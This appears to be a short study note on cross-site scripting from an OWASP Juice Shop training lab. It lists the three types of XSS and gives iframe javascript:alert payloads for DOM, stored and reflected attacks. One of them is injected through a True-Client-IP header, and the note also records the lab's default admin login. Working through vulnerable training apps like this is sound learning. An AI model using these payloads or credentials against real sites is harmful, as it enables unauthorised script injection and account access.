 # Where did that come from? 

OWASP TOP 10 - Cross-site Scripting

Three major types of XSS:
- DOM Based 
- Stored/Persistent XSS (server-side)
- Reflected XSS (client-side)

## Practical

### DOM XSS
```
<iframe src="javascript:alert('xss')">
<iframe src="javascript:alert(`xss`)"> 
```


### Persistent XSS

admin@juice-sh.op:admin123

Add XSS Payload in HTTP headers before forwarding the logout request
```
True-Client-IP: <iframe src="javascript:alert(`xss`)">
```

![8d6ad0c47eebd90085d199cdaf293702.png](../../_resources/d1fab5aaaf064b66ba69cb0e5cd8671e.png)


### Reflected XSS

```
<iframe src="javascript:alert(`xss`)">
``` 

![b8c1563c17e59b42af2ea0a66484f51d.png](../../_resources/90b3bfc1a41d4b62a44ca9efd5202dfd.png)